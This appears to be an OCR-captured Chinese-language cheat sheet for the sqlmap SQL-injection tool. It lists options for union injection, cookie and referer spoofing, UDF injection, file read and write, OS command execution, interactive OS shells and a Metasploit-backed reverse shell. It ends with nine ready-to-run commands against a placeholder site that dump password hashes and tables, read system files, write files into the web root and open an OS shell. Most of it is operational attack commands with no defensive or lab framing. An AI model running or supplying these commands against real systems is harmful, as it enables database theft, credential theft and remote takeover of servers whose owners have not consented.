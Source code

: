 ```bash
    1：显示信息和警告消息。 
    2：显示调试消息。 
    3：有效载荷注入。 
    4：显示HTTP请求。 
    5：显示HTTP响应头。 
    6：显示HTTP响应页面的内容 
--privileges  #查看权限 
--is-dba      #是否是数据库管理员 
--roles       #枚举数据库用户角色 
--udf-inject  #导入用户自定义函数（获取系统权限） 
--union-check  #是否支持union 注入 
--union-cols #union 查询表记录 
--union-test #union 语句测试 
--union-use  #采用union 注入 
--union-tech orderby #union配合order by 
--data "" #POST方式提交数据(--data "page=1&id=2") 
--cookie "用;号分开"      #cookie注入(--cookies=”PHPSESSID=mvijocbglq6pi463rlgk1e4v52; security=low”) 
--referer ""     #使用referer欺骗(--referer "http://www.baidu.com") 
--user-agent ""  #自定义user-agent 
--proxy "http://127.0.0.1:8118" #代理注入 
--string=""    #指定关键词,字符串匹配. 
--threads 　　  #采用多线程(--threads 3) 
--sql-shell    #执行指定sql命令 
--sql-query    #执行指定的sql语句(--sql-query "SELECT password FROM mysql.user WHERE user = 'root' LIMIT 0, 1" ) 
--file-read    #读取指定文件 
--file-write   #写入本地文件(--file-write /test/test.txt --file-dest /var/www/html/1.txt;将本地的test.txt文件写入到目标的1.txt) 
--file-dest    #要写入的文件绝对路径 
--os-cmd=id    #执行系统命令 
--os-shell     #系统交互shell 
--os-pwn       #反弹shell(--os-pwn --msf-path=/opt/framework/msf3/) 
--msf-path=    #matesploit绝对路径(--msf-path=/opt/framework/msf3/) 
--os-smbrelay  # 
--os-bof       # 
--reg-read     #读取win系统注册表 
--priv-esc     # 
--time-sec=    #延迟设置 默认--time-sec=5 为5秒 
-p "user-agent" --user-agent "sqlmap/0.7rc1 (http://sqlmap.sourceforge.net)"  #指定user-agent注入 
--eta          #盲注 
/pentest/database/sqlmap/txt/
common-columns.txt　　字段字典　　　 
common-outputs.txt 
common-tables.txt      表字典 
keywords.txt 
oracle-default-passwords.txt 
user-agents.txt 
wordlist.txt 

常用语句 :
1./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -f -b --current-user --current-db --users --passwords --dbs -v 0 
2./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --passwords -U root --union-use -v 2 
3./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -T users -C username -D userdb --start 2 --stop 3 -v 2 
4./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --dump -C "user,pass"  -v 1 --exclude-sysdbs 
5./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --sql-shell -v 2 
6./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-read "c:\boot.ini" -v 2 
7./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --file-write /test/test.txt --file-dest /var/www/html/1.txt -v 2 
8./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-cmd "id" -v 1 
9./sqlmap.py -u http://www.xxxxx.com/test.php?p=2 -b --os-shell --union-use -v 2 
```